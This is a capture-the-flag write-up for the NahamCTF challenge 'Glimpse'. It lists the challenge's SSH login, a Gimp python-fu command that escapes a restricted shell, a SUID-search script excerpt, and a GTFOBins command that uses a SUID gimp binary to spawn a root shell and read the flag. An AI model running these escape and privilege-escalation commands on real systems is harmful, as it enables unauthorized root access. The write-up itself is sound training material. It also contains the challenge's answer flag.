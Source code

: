 ```yaml
---
title: "NahamCTF: Glimpse"
categories:
  - NahamCTF
tags:
  - NahamCTF
---
```


*There's not a lot to work with on this server. But there is something...*

*Connect here:*
*ssh -p 50027 user@jh2i.com # password is 'userpass'*

---

For this challenge, we're given a restricted shell that is unable to change directories. Looking around the system, we see that Gimp is installed, meaning we can break out of this restricted shell:

```
gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
```

Looking around the system with our non-restricted shell doesn't show us much, but if we look for uncommon SUID binaries (courtesy of Linenum.sh), we see that Gimp is installed with a SUID bit set:

```
#search for suid files
allsuid=`find / -perm -4000 -type f 2>/dev/null`
findsuid=`find $allsuid -perm -4000 -type f -exec ls -la {} 2>/dev/null \;`
if [ "$findsuid" ]; then
  echo -e "\e[00;31m[-] SUID files:\e[00m\n$findsuid" 
  echo -e "\n"
fi
...
-rwsr-sr-x 1 root root 6057888 Mar 28  2018 /usr/bin/gimp-2.8
```

Now, using GTFOBins, we can spawn ourselves a root level shell:

```
/usr/bin/gimp-2.8 -idf --batch-interpreter=python-fu-eval -b 'import os; os.execl("/bin/sh", "sh", "-p")'
...
# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
# cd /root
# ls
flag.txt
# cat flag.txt
flag{just_need_a_glimpse_of_the_flag_please}
```

**flag{just_need_a_glimpse_of_the_flag_please}**
